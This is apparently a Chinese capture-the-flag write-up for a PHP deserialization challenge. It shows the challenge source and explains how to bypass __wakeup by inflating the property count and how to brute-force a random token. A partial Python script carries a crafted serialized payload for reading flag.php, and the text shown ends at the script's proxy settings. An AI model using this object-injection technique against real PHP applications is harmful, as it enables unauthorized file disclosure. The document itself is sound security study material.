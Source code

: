 Hint.php

```php
<?php  
class Handle{ 
    private $handle;  
    public function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
	public function __construct($handle) { 
        $this->handle = $handle; 
    } 
	public function __destruct(){
		$this->handle->getFlag();
	}
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct($file){
		$this->file = $file;
		$this->token_flag = $this->token = md5(rand(1,10000));
    }
    
	public function getFlag(){
		$this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
		{
			if(isset($this->file)){
				echo @highlight_file($this->file,true); 
            }  
        }
    }
}
?>
```

从[SugarCRM v6.5.23 PHP反序列化对象注入漏洞分析](https://paper.seebug.org/39/)了解到可以把以下 payload 

```
O:6:"Handle":1:
```

中的 1 改成比 1 大的数可以在反序列化时绕过`__warkeup`魔术方法
绕过`$this->token === $this->token_flag`的判断可以直接通过爆破来绕过

贴一下脚本：

```python
import requests
import time

url ="http://e281a336df8b4ea1b7665704aca7b30246d3cd0663434603.changame.ichunqiu.com///?file=hint.php&payload=O%3A6%3A%22Handle%22%3A3%3A{s%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A{s%3A4%3A%22file%22%3Bs%3A10%3A%22.%2Fflag.php%22%3Bs%3A5%3A%22token%22%3Bs%3A32%3A%227b670d553471ad0fd7491c75bad587ff%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%227b670d553471ad0fd7491c75bad587ff%22%3B}}"

proxies ={
    'http':'http://127.0.0.1:8080/'
}
```